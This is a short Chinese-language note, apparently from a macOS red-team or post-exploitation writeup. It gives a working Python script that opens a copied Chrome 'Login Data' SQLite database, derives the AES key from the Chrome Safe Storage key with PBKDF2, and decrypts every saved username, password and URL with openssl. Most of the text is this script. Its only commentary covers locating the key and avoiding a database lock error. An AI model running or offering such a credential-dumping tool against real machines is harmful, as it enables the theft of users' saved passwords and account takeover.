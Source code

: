 获取chrome浏览器密码文件路径，和加密密钥

![](./../img/mac/Untitled%209.png)

本地解密的脚本

```
import sqlite3, os, binascii, subprocess, base64, sys, hashlib, glob

def chromeDecrypt(encrypted_value, iv, key=None): #AES decryption using the PBKDF2 key and 16x ' ' IV, via openSSL (installed on OSX natively)
    hexKey = binascii.hexlify(key)
    hexEncPassword = base64.b64encode(encrypted_value[3:])
    try: #send any error messages to /dev/null to prevent screen bloating up
        decrypted = subprocess.check_output("openssl enc -base64 -d -aes-128-cbc -iv '%s' -K %s <<< %s 2>/dev/null" % (iv, hexKey, hexEncPassword), shell=True)
    except Exception as e:
        decrypted = "ERROR retrieving password"
    return decrypted

def chromeProcess(safeStorageKey, loginData):
    iv = ''.join(('20',) * 16) #salt, iterations, iv, size - https://cs.chromium.org/chromium/src/components/os_crypt/os_crypt_mac.mm
    key = hashlib.pbkdf2_hmac('sha1', safeStorageKey, b'saltysalt', 1003)[:16]
    fd = os.open(loginData, os.O_RDONLY) #open as read only
    database = sqlite3.connect('/dev/fd/%d' % fd)
    os.close(fd)
    sql = 'select username_value, password_value, origin_url from logins'
    decryptedList = []
    with database:
        for user, encryptedPass, url in database.execute(sql):
            if user == "" or (encryptedPass[:3] != b'v10'): #user will be empty if they have selected "never" store password
                continue
            else:
                urlUserPassDecrypted = (url.encode('ascii', 'ignore'), user.encode('ascii', 'ignore'), chromeDecrypt(encryptedPass, iv, key=key).encode('ascii', 'ignore'))
                decryptedList.append(urlUserPassDecrypted)
    return decryptedList

#print(chromeProcess(safeStorageKey,loginData[0]))
print(chromeProcess("Yysssssssssssssssss=","/tmp/aaadatabase"))
#print(chromeProcess("key","/Users/user/Library/Application Support/Google/Chrome/Default/Login Data"))
```

这里我把Login Data复制到本地/tmp/aaadatabase,避免出现****`sqlite3.OperationalError: database is locked`****报错
